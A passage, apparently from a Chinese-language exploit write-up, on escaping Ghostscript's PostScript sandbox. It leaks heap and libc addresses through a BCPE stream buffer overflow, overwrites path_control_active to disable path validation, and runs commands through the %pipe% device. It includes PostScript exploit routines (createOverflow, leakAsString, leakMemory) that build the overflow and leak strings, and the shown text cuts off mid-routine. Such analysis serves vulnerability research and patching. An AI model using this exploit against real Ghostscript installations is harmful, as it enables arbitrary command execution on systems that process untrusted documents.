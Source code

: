 [![](assets/1706771701-e7e4e1b3fb14163c71dbb0af49297a1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202454-685400f2-bea1-1.png)

但是还有一个问题，system 的函数地址我们并不知道。不过我们可以找到这样一个结构：在 procss 结构之前，有一个读和写功能，这便可以从堆中泄漏 libc 地址并调用。有了这些信息，利用方法就相当简单了。

作为一种完整的语言，PostScript 提供了在磁盘上读写文件的方法。它甚至可以通过写入%pipe%设备来调用子流程。显然，由于 Ghostscript 经常处理来自不可信来源的文件，因此它调用了一个沙箱，阻止 PostScript 程序读取或写入某个白名单之外的文件。此验证是在 base/gpmisc.c 中的 gp\_validate\_path\_len 函数中完成的。可以发现前几行是用来检查沙箱是否处于活动状态：

```bash
/* mem->gs_lib_ctx can be NULL when we're called from mkromfs */
if (mem->gs_lib_ctx == NULL ||
    mem->gs_lib_ctx->core->path_control_active == 0)
    return 0;
```

mem 变量实际上是复杂上下文结构的一个子结构，它保留了当前执行状态中的所有信息。`path_control_active`变量可在`i_ctx_p->memory->current->gs_lib_ctx->core->path_control_active`中找到。上下文结构也位于堆中，因此泄漏堆指针应该足以定位 path\_control\_active 变量。通过任意写入，可以覆盖此变量，而不会导致进程崩溃，然后使用%pipe%语句即可调用任何命令。

从堆中获取泄漏很简单。在流结构中，覆盖游标读取指针（curr->cursor->r->ptr）将强制下一个流复制所有数据，直到该指针为止。但是，在 s\_xBCPE\_process 函数的最后一行（以及稍后在 stream\_compact 函数中），此指针会被覆盖到其先前的值。然后，下一个字节流将数据复制到 stdout：

```bash
% - -> a long string
/createOverflow {
    ()
    1 1 2045 {pop <41> concatstrings}for
    <1313> concatstrings %escaped char
    1 1 15  {pop <42> concatstrings} for
}def
% (leak) -> leak as hexadecimal string 
/leakAsString{
    /myString 16 string def
    /asciiToHexFilter myString /ASCIIHexEncode filter def
    asciiToHexFilter exch writestring
    asciiToHexFilter flushfile
    myString
}def 
% - -> a 8 bytes leak from the heap (i/o pool)
/leakMemory{
    /leakBuffer 5000 string def
    /leakMemoryFilter leakBuffer /NullEncode filter /BCPEncode filter def
    createOverflow
    <4343434343434343> concatstrings % s->templat
    <4444444444444444> concatstrings % s->memory
    <4545454545454545> concatstrings % s->report_error
    <4646464646464646> concatstrings % s->min_left
    1 1 80   {pop <47> concatstrings }  for   % s->error_string
```